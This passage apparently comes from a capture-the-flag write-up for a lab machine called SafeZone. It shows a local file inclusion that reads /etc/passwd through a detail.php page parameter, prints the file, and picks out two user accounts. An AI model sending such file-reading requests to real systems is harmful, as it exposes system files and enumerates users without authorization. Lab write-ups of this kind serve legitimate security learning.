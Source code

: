 ![LFI](/assets/images/2021/07/SafeZone/LFI.png "LFI")

Next I tried loading the [`/etc/passwd`](http://target.thm/detail.php?page=/etc/passwd) file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
yash:x:1000:1000:yash,,,:/home/yash:/bin/bash
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false
files:x:1001:1001:,,,:/home/files:/bin/bash
```

This told me there was two users on the server: 'yash' and 'files'. I tried them in the Details page. 

![Yash](/assets/images/2021/07/SafeZone/YashWhoami.png "Yash")
